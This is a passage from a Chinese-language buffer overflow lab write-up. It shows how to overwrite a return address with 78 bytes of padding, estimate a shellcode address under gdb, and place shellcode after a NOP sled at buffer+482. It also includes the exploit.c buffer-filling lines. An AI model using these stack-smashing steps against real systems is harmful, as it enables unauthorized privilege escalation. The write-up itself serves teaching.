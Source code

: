 > <img src="BufferOverflow/image-20220321235119199.png" alt="image-20220321235119199" style="zoom:50%;" />

先获取78个`A`

```bash
python -c "print 'A'*78"
```

![image-20220321225926933](BufferOverflow/image-20220321225926933.png)

接下来我们需要计算 shellcode 的地址。从理论上来说 shellcode 的 地址只要大于 buffer 首地址+78+4（返回地址）即可，但是我们求出 来的 buffer 首地址是通过调试手段找到的地址，在 gdb 中运行得到的 buffer 地址可能与直接运行时不同，因为 gdb 开始时往栈中压入了一 些额外的数据。

所以我们将 shellcode 放在 buffer 首地址+482的位置， 而此前的内容用 nop 填充以提高猜测的成功率。由于我们不知道buffer 是会前移还是后移，所以我们将 shellcode 的入口点设置为中间 的 nop 的地址。该地址为 $bffff0ce（buffer 首地址）+78（78 个A） +4（新的返回地址）+(482-82)/2（中间的 nop 指令）=bffff1e8$。 于是 exploit.c 程序改写为：

```c
    /* You need to fill the buffer with appropriate contents here */
    strcpy(buffer, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xe8\xf1\xff\xbf");
    strcpy(buffer+482,shellcode);
```

### 获取权限
